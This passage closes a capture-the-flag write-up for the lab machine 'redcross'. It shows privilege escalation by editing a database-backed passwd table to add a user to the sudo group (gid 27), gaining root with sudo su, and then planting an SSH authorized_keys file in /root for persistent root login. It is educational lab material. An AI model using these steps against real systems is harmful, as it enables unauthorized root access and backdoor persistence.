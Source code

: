 We can see that this table contains the user we created in the admin site. If you are unfamiliar with linux groups and permissions. `cat /etc/group` and we can get a list of Linux groups. reading through the contents a group id (gid) of 27 will add a user into the sudoers group, allowing them to run sudo commands.

With this in mind we update our jailed user to be in the sudoers group:
```
unix=> update passwd_table set gid = '27' where username = 'thoseguys';
UPDATE 1
```

Once done, we can now go back and ssh into the box with our jailed user credentials and run the command sudo su to become root with our username and password:
```
root@kali: ssh thoseguys@redcross.htb                    
thoseguys@redcross.htb's password: 
Linux redcross 4.9.0-6-amd64 #1 SMP Debian 4.9.88-1+deb9u1 (2018-05-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Nov 12 20:11:40 2018 from 10.10.14.12
thoseguys@redcross:~$ sudo su

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for thoseguys: 
root@redcross:/var/jail/home# 
```

We can now read the `root.txt`.

We could take it a step further again and copy our `authorized_keys` file from penelope into the root folder and ssh in directly as the root user:
```
root@redcross: mkdir /root/.ssh
root@redcross: cp /home/penelope/.ssh/authorized_keys /root/.ssh/authorized_keys
root@redcross: chmod 600 /root/.ssh/authorized_keys
root@redcross: exit
thoseguys@redcross: exit

root@kali: ssh -i thoseguys root@redcross.htb
...
root@redcross: 
```

And there we have it, full root access to the box. This was a great into to some new skills to CTFs, it is rare to see one that includes an XSS vulnerability.
